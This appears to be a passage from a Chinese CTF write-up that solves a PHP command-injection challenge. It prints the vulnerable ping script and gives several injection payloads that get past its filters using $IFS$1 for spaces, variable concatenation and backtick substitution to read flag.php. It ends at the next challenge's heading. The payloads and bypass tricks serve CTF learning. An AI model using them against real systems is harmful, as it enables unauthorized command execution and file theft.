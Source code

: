 ```
payload:/?ip=127.0.0.1;cat flag.php 
```

> ![在这里插入图片描述](img/c64a4dbddd94b517d87172bfbef96f23.png)
> 发现空格好像被过滤了，FUZZ一下决定还是使用$IFS$1进行绕过。
> 先看看index.php的源代码，构造

```
payload:/?ip=127.0.0.1;cat$IFS$1index.php 
```

> index.php网页源代码

```
<?php
if(isset($_GET['ip'])){
  $ip = $_GET['ip'];
  if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "<pre>";
  print_r($a);
}
?> 
```

> 故可以构造

```
payload:/?ip=127.0.0.1;a=f;b=g;c=la;cat$IFS$1$a$c$b.php 
```

or

```
payload:/?ip=127.0.0.1;cat$IFS$1`ls` 
```

这里是借鉴了其他师傅的payload，也算是给自己涨涨见识吧。

### [极客大挑战 2019]BabySQL

> 打开网页